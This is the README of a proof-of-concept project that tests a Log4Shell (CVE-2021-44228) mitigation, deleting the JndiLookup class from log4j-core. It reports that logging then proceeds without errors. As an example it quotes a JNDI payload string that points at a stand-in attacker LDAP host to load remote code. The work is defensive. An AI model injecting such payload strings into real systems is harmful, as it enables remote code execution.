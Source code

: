 # Log4ShadeMitigationPoC

This is a small concept project with the aim to experiment and understand the Log4Shell vulnerability, known as [CVE-2021-44228](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/).

In particular, it aims to prove that the mitigation proposed for versions 2.0 - 2.9, namely removing the org/apache/logging/log4j/core/lookup/JndiLookup.class file from the log4j-core-2.\*.jar, is viable, unproblematic and actually preferable for *every* version of log4j-core-2.

What it shows is that if a) the JDNI lookup functionality is triggered, either by an attacker or by normal usage and b) the class file is missing (because an administrator removed it) *everything works*. There's no error whatsoever; one would expect ClassNotFoundException or NoClassDefFoundError, but what actually happens is that the program happily works, writing the requested output (e.g. "${jndi:ldap://bad.guy.domain:389/evilcode}") in the log file without any processing. **Which for the vast majority of software is exactly what we want**.
